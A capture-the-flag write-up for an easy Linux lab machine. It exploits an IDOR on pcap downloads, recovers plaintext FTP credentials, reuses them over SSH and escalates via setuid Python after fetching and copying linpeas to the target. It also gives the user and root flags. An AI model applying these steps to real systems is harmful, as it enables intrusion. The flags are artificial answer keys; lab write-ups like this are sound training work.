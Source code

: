 ### Cap
**OS:** Linux<br>
**Difficulty:** Easy<br><br>
**Tags:** Forensics, Vulnerability Assessment, Web Application, Security Operations, Log Analysis, Common Security Controls, Clear Text Credentials, File System Configuration, Insecure Direct Object Reference (IDOR), Python

---

#### Insecure Direct Object Reference

Running an [initial port scan](port_scan.nmap), we identify FTP, SSH, and HTTP services running on the target system. We then visit the website and discover that we are logged into a security dashboard with the username Nathan:

![Website](website.png)

In the security dashboard, we navigate to the security snapshot page. Looking at the URL, we see we're viewing the 4th snapshot, which displays statistics for snapshot, along with a download button to retrieve the pcap file for further analysis:

![Pcap Page](pcap_page.png)

We download the pcap and intercept the http request using the Proxy tab in Burp Suite:

```
GET /download/4 HTTP/1.1
Host: 10.129.91.36
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.129.91.36/data/4
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

It downloads the pcap by making an http get request to `/download/4`, which might indicate an insecure direct object reference vulnerability. We make a request to `/download/3` and successfully download the previous a snapshot, verifying the presence of the vulnerability. 

In Burp Suite, we send the intercepted request to the Intruder. Using a Sniper attack, we test different pcap file reference numbers and find that the valid ones range from 0 to 4:

![Intruder](intruder.png)

---

#### Packet Capture Analysis

We download all the valid pcap files from the dashboard and merge them into one file:

```bash
$ touch download.pcap
$ for i in {0..4}; do wget http://10.129.91.36/download/$i -O download$i.pcap; mergecap -w download.pcap download.pcap download$i.pcap; done
```

We open the [merged pcap file](download.pcap) in Wireshark and find that packet 34 seems to pertain to a vsFTPd 3.0.3 session. We follow the [TCP stream](ftp_stream) of packet 34 to examine the entire ftp session and find that the user login credentials `nathan:Buck3tH4TF0RM3!` are passed in plaintext:

![Wireshark ftp Session](ftp.png)

----

#### Initial Access

From our port scan, we discovered that ssh was running on the target machine. We reuse the ftp login credentials gained from the pcap file, gaining remote ssh access as nathan:

![Initial Access](initial_access.png)

---

#### Privilege Escalation

We download the `linpeas.exe` executable onto our local machine and transfer it from our machine to the target machine:

```bash
$ wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
$ scp linpeas.sh nathan@10.129.91.36:/home/nathan
```

On the target machine, we run the `linpeas.exe` executable and discover that Python has special setuid permissions:

![linepeas.exe](linpeas.png)

Using the Python interpreter we set the uid to 0, allowing us to make syscalls as root:

![Root](root.png)

---

#### User Flag
> 780856c2f493cfe0b0918cecf08720fe


#### Root Flag
> 01364b6ad0bf72b02563ac917f23a7fa


---